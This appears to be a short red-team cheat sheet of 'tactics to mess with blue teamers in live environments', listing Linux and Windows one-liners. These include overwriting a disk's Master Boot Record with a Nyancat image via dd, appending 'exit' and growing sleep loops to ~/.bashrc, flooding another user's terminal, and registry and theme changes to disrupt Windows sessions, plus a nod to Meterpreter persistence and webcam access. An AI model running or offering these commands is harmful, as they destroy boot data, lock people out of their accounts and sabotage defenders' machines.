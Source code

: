 A small collection of tactics to mess with blue teamers in live environments...

# Linux

```shell
xrandr -o inverted # Flip X11 desktop session upside down.

dd if=nyan.mbr of=/dev/sda # NyanMBR necessary, overwrites Master Boot Recrd with Nyancat animation. The MBR image can be found in this repository: https://github.com/brainsmoke/nyanmbr

echo exit >> ~/.bashrc # Add a logout to the login script

cat /dev/urandom > /dev/pts/<pts number> # Fill terminal with random noise spewing out at high speed.

echo "echo "sleep 1;" >> ~/.bashrc">> ~/.bashrc # Add a longer sleep to their terminal startup every time they login. 
```

# Windows
```powershell
start C:\Windows\Resources\Ease of Access Themes\hc1.theme # Start the Windows high-contrast theme

reg add "HKCU\Control Panel\Mouse" /v "MouseSpeed" /t REG_SZ /d "VALUE" /f # Modify mouse speed
```

Persistence with [[Meterpreter]] affords many options like `webcam_chat`. 
